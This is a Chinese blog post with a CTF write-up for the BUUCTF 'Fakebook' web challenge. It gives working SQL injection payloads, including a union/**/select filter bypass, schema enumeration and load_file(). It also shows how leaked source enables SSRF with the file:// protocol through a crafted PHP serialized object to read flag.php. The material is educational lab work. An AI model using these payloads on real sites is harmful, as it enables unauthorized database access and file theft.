<!--yml
category: 未分类
date: 2022-04-26 14:40:37
-->

# BUUCTF__[网鼎杯 2018]Fakebook_题解_风过江南乱的博客-CSDN博客_fakebook网鼎杯

> 来源：[https://blog.csdn.net/tm_1024/article/details/107045217](https://blog.csdn.net/tm_1024/article/details/107045217)

## 前言

*   前天上午去报名了初中辅导老师，下午收到暑假可能可以回学校学习。。。真就尴尬。如果可以，回还是不回。
*   参加了2020年的网鼎杯，签到杯，神仙打架，萌新不配参加，下次一定。

## 读题

*   这题有点意思，虽然是sql注入，但注入点不在平常的注册登录那里，而是在`view.php` , 但是，远远不是sql注入那么简单。

*   首先拿到题很容易发现，f12看到get传参就注意了一下。
    

*   随便传入一个字母发现报错提示，就很明显的sql注入点了。并且暴露了网站根目录。
    

*   这回跑字典啥也没跑出来，都是sql语句报错。好像都没被过滤。

*   那就手工试一下，联合注入，启动。

*   先测试列，在列5时报错，看来有4列

    ```
     ?no=100 order by 5# 
    ```

*   然后测试回显位，这步是之前没用过的，原因是以前的sql注入都是很明显的账号密码，很容易知道回显位。

    ```
     ?no=100 union select 1,2,3,4# 
    ```

*   嗯？提示过滤。why?
    

*   把payload拆开看看过滤了什么，发现单个单词都没过滤，过滤了`union select`

*   网上找到绕过方法`union/**/select`，也可以放弃联合注入用报错注入。一样可行

*   修改payload再次尝试

    ```
     ?no=100 union/**/select 1,2,3,4# 
    ```

*   得到回显位为2
    

*   将2 替换为database() ，再次尝试，得到数据库名称`facebook`

    ```
    ?no=100 union/**/select 1,database(),3,4# 
    ```



*   继续得到表的名称`users`

    ```
    ?no=100 union/**/select 2,group_concat(table_name),2,2 from information_schema.tables where table_schema=database()# 
    ```



*   进一步得到字段名，有多个：no,username,passwd,data,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS

    ```
    ?no=100 union/**/select 2,group_concat(column_name),2,2 from information_schema.columns where table_name='users'# 
    ```



*   尝试读取内容，以为到此结束，没想到，这才刚刚开始。读取内容发现字段 `data` 有一组序列化后的字符串，其它字段也没什么内容。此时注意到，这就是我们刚刚注册填的内容

    ```
    ?no=100 union/**/select 2,group_concat(data),2,2 from users# 
    ```



*   注入到此结束，没有得到flag。显然网鼎杯的题目怎么可能这么简单。

## 研究

### 一、robots.txt__源码泄露

*   很多网站都会有这个文件，比如说百度、谷歌都有，直接访问`/robots.txt` 就行
*   作用是告诉搜索引擎该网站可以访问的范围。但
*   这个知识点之前知道，但没想到这里用上了。
*   访问，发现有一个user.php.bak
    
*   访问`/user.php.bak` 下载了一个文件，去除后缀名.bak得到user.php，源码泄露。

```
<?php

class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

} 
```

*   主要关注一下get函数，没看过的函数没关系，百度函数功能。
*   大概理解是将我们输入的blog，调用get函数创建链接我们填的url，将访问该url返回的内容在页面输出。这里就是我们利用的点。

### 二、ssrf__服务端请求伪造

*   ssrf是什么？参考[这篇文章](https://www.jianshu.com/p/d1d1c40f6d4c)比较好理解。
*   本来应该是让它返回我们填的blog页面内容，但是我们读啥呢？？？
*   万万没想到，题目还有一个`flag.php`,得扫描，能不能扫出来，还得看你字典有没有。但是一般比赛都直接说明题目不需要扫描器，怕服务器承受不住。
*   所以，我们可以填`http:127.0.0.1/flag.php` ,然后让上面说的调用get函数访问它并返回显示内容吗？不行，看上面源码，过滤了http/https。
*   所以，继续往下

### 三、file协议__读取本地文件

*   file协议是什么？参考[这篇文章](https://blog.csdn.net/github_39319000/article/details/86523282)
*   可以绕过http读取文件，同时有前面也暴露了解对路径。很明确。
*   那为啥不在注册的时候blog直接填`file:///var/www/html/flag.php` ，然后你会发现，报错不能注册。所以还得往下。

### 四、php序列化

*   由上面的data字段内容可以得知，我们的注册信息，是以反序列化字符串储存的。
*   以序列化的方式存储在data字段中，查询时返回序列化字符串后先进行反序列化后再提取blog网址。
    
*   那如果让它查询返回的是包含`file:///var/www/html/flag.php`的序列化字符串，那它提取时就是访问了flag.php文件并返回。解决了上面注册的过滤。
*   所以，我们先构造一个php序列化字符串。

```
<?php

class UserInfo
{
    public $name = "1";
    public $age = 0;
    public $blog = "file:///var/www/html/flag.php";

}

$a = new UserInfo();
echo serialize($a);
?> 
```

### 五、最后解题

*   所以，只需要让它返回我们构造的php序列化字符串里的内容，再一次sql联合注入，返回查询内容为file:///var/www/html/flag.php

    ```
    ?no=100 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:1;s:4:"blog";s:29:"file:///var/www/html/flag.php";}' 
    ```



### 六、其它方法

*   看wp还看到一种解法，直接通过sql读取函数直接读取flag.php文件

    ```
    ?no=100 union/**/select 1,load_file('/var/www/html/flag.php'),3,4 # 
    ```



*   主要是mysql的`load_file`函数，可以百度了解。

## 最后

*   理一下思路，我终止在sql注入结束，看wp才发现原来这么复杂，先知道了data字段中序列化储存，再得知user.php源码泄露，通过源码得知得可以用file协议利用ssrf漏洞读取文件，再通过序列化去读取flag.php。
*   很综合的一道题，不愧是网鼎杯。
*   做完做题可以去丰富目录字典了。
*   附上[题目链接](https://buuoj.cn/challenges#%5B%E7%BD%91%E9%BC%8E%E6%9D%AF%202018%5DFakebook)
*   持续更新BUUCTF题解，写的不是很好，欢迎指正。
*   最后欢迎来访[个人博客](http://ctf-web.zm996.cloud/)